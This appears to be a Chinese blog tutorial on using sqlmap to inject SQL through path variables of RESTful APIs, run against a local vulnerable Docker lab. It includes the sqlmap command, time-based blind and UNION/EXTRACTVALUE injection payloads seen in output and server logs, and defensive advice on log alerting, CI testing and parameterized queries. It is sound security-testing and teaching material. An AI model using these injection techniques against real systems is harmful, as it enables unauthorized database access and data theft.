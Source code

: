 ```yaml
---
date: "2020-12-02T00:00:00Z"
description: 使用 sqlmap 定点注入 restful API 接口
keywords: tools, sqlmap
tags:
- security
- tools
title: 使用 sqlmap 根据变量位置定点注入 restful api
---
```


# 使用 sqlmap 根据变量位置定点注入 restful api

sqlmap 是一款强劲自动化的 sql 注入工具， 使用 python 开发， 支持 `python 2/3`。

RESTful API 规则几乎是当前开发执行的默认规范。  


在 restful 接口中， 常常将变量位置放置在 url 中。 
例如 `http://127.0.0.1:8080/{user}/profile` ， 其中 `{user}` 就是变量，根据代码实现方式，可以等价于 `http://127.0.0.1:8080/profile?user={user}` 。

那么， 在对这类 restful 接口进行 sql 注入的时候，又该注意什么呢？ 
本文将通过实验， 进行简单介绍。

## 先说结论

在进行 restful 接口注入的时候， 需要在变量位置使用占位符， 通常为 `1*` 。

例如接口如下

+ 接口规则: `http://127.0.0.1:8080/{user}/profile` 
+ 实际使用: `http://127.0.0.1:8080/zhangsan/profile`
+ 注入规则: `http://127.0.0.1:8080/1*/profile`
    + 实际上， 可以简写为 `http://127.0.0.1:8080/1*`

## 准备工作

**扫描工具**

+ [`sqlmap`](http://sqlmap.org/)

**运行环境**

+ 数据库: `mysql 5.7`
+ 注入靶机: [`vulhub/sqli/restful` 
    + [代码实现 - github](https://github.com/tangx/vulhub/tree/master/cmd/sqli/restful)
    + `doslab/vulhub-sqli:latest` 镜像: `docker pull doslab/vulhub-sqli:latest`

## 搭建环境

这里使用 `docker-compose` 快速搭建环境

**docker-compose.yml**

```yaml
# docker-compose.yml

version: '3.1'
services:
  mysql:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: root123
  sqli:
    image: doslab/vulhub-sqli
    ports:
      - 8080:8080
```

```bash
# 启动
$ docker-compose up -d

# 查看启动状态
$ docker-compose ps

# 验证数据库是否初始化
$ curl http://127.0.0.1:8080/v1/admin/admin
## {"name":"admin","password":"admin"}
```

注意: 由于 mysql 初始化需要一定时间， 所以在 **vulhub-sqli** 启动时 **可能无法正常初始化数据库** 或 **无法正常启动** 。  此时使用 `docker-compose restart sqli` 或 `docker-compose up -d` 即可。


## sqlmap 注入

在 github 上 clone 代码到本地并安装依赖组件。 具体操作可以按照说明进行。 这里建议使用 `git clone` 方式， 一遍后续更新。


或者， 使用笔者预先做好的镜像 docker 镜像 `docker pull tangx/sqlmap` 。

这里， 笔者使用 docker 进行注入操作

```bash
# 启动运行 sqlmap 环境
$ docker run --rm -it tangx/sqlmap:latest bash
```

在 `vulhub-sqli` 靶机中的 API `GET http://your-ip:8080/v0/${user}/${password}` 中有两个变量 **user** 和 **password** 。 任意使用其中给一个，均可完成注入。

这里我们在变量 **password** 的位置使用占位符 `1*`。

```bash
$ ./sqlmap.py -u "http://yourip:8080/v0/admin/1*" --batch

[19:00:42] [INFO] checking if the injection point on URI parameter '#1*' is a false positive
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 74 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://192.168.233.3:8080/v0/admin/1' AND (SELECT 5249 FROM (SELECT(SLEEP(5)))xozz) AND 'oVDy'='oVDy
---
[19:00:57] [INFO] the back-end DBMS is MySQL
[19:00:57] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
back-end DBMS: MySQL >= 5.0.12
[19:00:57] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 1 times
[19:00:57] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.233.3'


```


从日志结果我们可以看到 `Type: time-based blind`，靶机有 **时间盲注** 漏洞。

## 运维体系加固

首先，我们观察一下 sqlmap 留下的日志。

接口部分日志如下

```log

[GIN] 2020/12/02 - 19:00:31 | 200 |     456.835µs |    192.168.32.1 | GET      "/v0/admin/1'sHvusK<'\">DyNhdx"
[GIN] 2020/12/02 - 19:00:31 | 200 |     474.341µs |    192.168.32.1 | GET      "/v0/admin/1) AND 5498=7607 AND (9169=9169"
[GIN] 2020/12/02 - 19:00:31 | 200 |     467.909µs |    192.168.32.1 | GET      "/v0/admin/1 AND 1526=1615"

... lue ...

[GIN] 2020/12/02 - 19:00:31 | 200 |     471.358µs |    192.168.32.1 | GET      "/v0/admin/1' AND EXTRACTVALUE(1745,CONCAT(0x5c,0x716b7a7171,(SELECT (ELT(1745=1745,1))),0x7178706271)) AND 'Sdog'='Sdog"
[GIN] 2020/12/02 - 19:00:31 | 200 |     311.095µs |    192.168.32.1 | GET      "/v0/admin/1 AND EXTRACTVALUE(1745,CONCAT(0x5c,0x716b7a7171,(SELECT (ELT(1745=1745,1))),0x7178706271))-- PuIi"

... lue ...

[GIN] 2020/12/02 - 19:00:42 | 200 |     390.044µs |    192.168.32.1 | GET      "/v0/admin/1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -"
time="2020-12-02T19:00:42Z" level=error msg="get user failed: Error 1222: The used SELECT statements have a different number of columns"
[GIN] 2020/12/02 - 19:00:42 | 200 |     371.442µs |    192.168.32.1 | GET      "/v0/admin/1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -"

... lue ...

[GIN] 2020/12/02 - 19:00:57 | 200 |     445.171µs |    192.168.32.1 | GET      "/v0/admin/1' AND (SELECT 6597 FROM (SELECT(SLEEP(5-(IF(@@VERSION_COMMENT LIKE 0x256472697a7a6c6525,0,5)))))QvWg) AND 'ftQy'='ftQy"
[GIN] 2020/12/02 - 19:00:57 | 200 |     369.366µs |    192.168.32.1 | GET      "/v0/admin/1' AND (SELECT 5784 FROM (SELECT(SLEEP(5-(IF(@@VERSION_COMMENT LIKE 0x25506572636f6e6125,0,5)))))pKCS) AND 'WJHr'='WJHr"
time="2020-12-02T19:00:57Z" level=error msg="get user failed: Error 1305: FUNCTION vulhub.AURORA_VERSION does not exist"

... lue ...

```

通过日志不难看出， sqlmap 在测试注入的时候， 使用了各种类型的数据库函数。 因此， **可以完善日志系统， 针对异常接口参数进行及时告警和跟进处理** 。

当然， 如果真被 sql 注入拖库了， 那之后的优化也封堵也不过是亡羊补牢。 所以， 更好的办法是 **在 CI 完成发布到测试环境之后立即进行注入测试** ， 将事故扼杀在萌芽中。

## 补充

`doslab/vulhub-sqli` 额外提供了**同样功能，但无注入危险**的一个接口 `GET http://your-ip:8080/v1/{user}/{password}` ( **注意这里是 `v1`** ) 。
不通的是，该接口查询使用的时候 `golang mysql` 库进行的 `Query` 查询操作； 而非自己拼写 sql 语句。
